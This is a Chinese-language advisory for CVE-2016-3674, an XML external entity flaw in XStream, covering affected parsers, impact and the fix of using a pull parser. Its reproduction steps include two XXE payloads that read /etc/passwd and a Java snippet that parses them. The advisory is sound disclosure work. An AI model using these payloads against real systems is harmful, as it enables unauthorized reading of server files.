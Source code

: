# CVE-2016-3674

## 脆弱性

CVE-2016-3674: XStream 的 XML 外部实体(XXE)漏洞

## 影响版本

如果使用默认的 XML 拉解析器(Xpp3 或 kXML2)，则 XStream 不会受到攻击，因为这些解析器类型根本不处理 XML 实体。

在 1.4.8 之前(包括 1.4.8)的所有版本，如果显式地使用以下任一解析器，都将受到影响:

- DOM4J
- DOM
- JDOM
- JDOM2
- StAX 实现
- XOM

XStream 的 HierarchicalStreamDriver 实现现在将显式地关闭外部实体的处理，但并不是所有解析器实现都遵守这个设置。因此，如果显式地使用以下解析器实现之一，XStream 在未来仍然是脆弱的:

- 从 Java 5 运行时及以下的 DOM 实现
- 来自 Java 6 运行时及以下版本的 StAX 实现
- BEA 的 StAX 实现(旧的参考实现)
- XOM

有关解释解析器行为的矩阵，请参阅 FAQ。

## 描述

XStream 支持许多不同的 XML 解析器。其中一些还可以处理默认启用的外部实体。因此，攻击者可以提供经过操作的 XML 作为输入来访问文件系统上的数据，请参阅 XXE 漏洞。

## 重现步骤

攻击者可能会使用外部通用实体或参数实体:

```xml
<?xml version="1.0">
  <!DOCTYPE root [
    <!ELEMENT string (#PCDATA)>
    <!ENTITY content SYSTEM "file:/etc/passwd">
]><string>&content;</string>
```

```xml
<?xml version="1.0">
  <!DOCTYPE root [
    <!ELEMENT string (#PCDATA)>
    <!ENTITY content SYSTEM "file:/etc/passwd">
    %content;
]><string>test</string>
```

使用上面的一个 XML 文档，用一个易受攻击的解析器初始化 XStream，然后解编 XML:

```java
XStream xstream = new XStream();
String s = (String)xstream.fromXML(xml);
```

## 影响

如果 Java 进程具有读访问权限，该漏洞可能允许远程攻击者检索本地文件系统中已知位置的任意文件的内容。

## 解决方案

使用一种 XML 拉解析器实现。
